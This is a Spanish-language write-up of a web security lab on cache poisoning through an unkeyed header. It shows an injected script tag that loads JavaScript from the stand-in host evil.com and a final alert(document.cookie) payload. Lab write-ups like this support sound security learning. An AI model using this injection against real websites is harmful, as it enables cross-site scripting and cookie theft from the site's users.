







# Web cache poisoning with an unkeyed header
¿Que es web cache poisoning??

El envenenamiento de caché web es una técnica avanzada mediante la cual un atacante aprovecha el comportamiento de un servidor web y la caché para enviar una respuesta HTTP dañina a otros usuarios.

Básicamente, el envenenamiento de caché web consta de dos fases. En primer lugar, el atacante debe averiguar cómo obtener una respuesta del servidor back-end que contenga inadvertidamente algún tipo de carga útil peligrosa. Una vez logrado esto, debe asegurarse de que su respuesta se almacene en la caché y, posteriormente, se envíe a las víctimas previstas.

Una caché web envenenada puede ser un medio devastador para distribuir numerosos ataques diferentes, aprovechando vulnerabilidades como XSS, inyección de JavaScript, redireccionamiento abierto, etc.




## LAB

Observamos que el sitio web que  maneja la cache para que se cargan los recursos.



Así mismo podemos usar una extensión de burpsuite para encontrar un parámetro en donde inyectar nuestro código malicioso.



En el encabezado que `Param Miner` encontró, pondremos un dominio. 



Al insertar un dominio y observamos que el valor del encabezado se refleja y esta en cache del servidor por unos 30 segundo aproximadamente. 

```c
       <script type="text/javascript" src="//evil.com/resources/js/tracking.js">
```

Por lo que vemos que podemos manipular el recurso:

```c
resources/js/tracking.js
```

Asi que vamos a crear nuestro payload malicioso desde nuestro exploit server:



Al guardar y volver enviar la solicitud, podemos observar que efectivamente el sitio web llama a nuestro recurso, ejecutándose el javascript con un `alert(1)`.





Para lograr resolver el laboratorio, debemos ejecutar el siguiente codigo de javascript:

```c
alert(document.cookie)
```
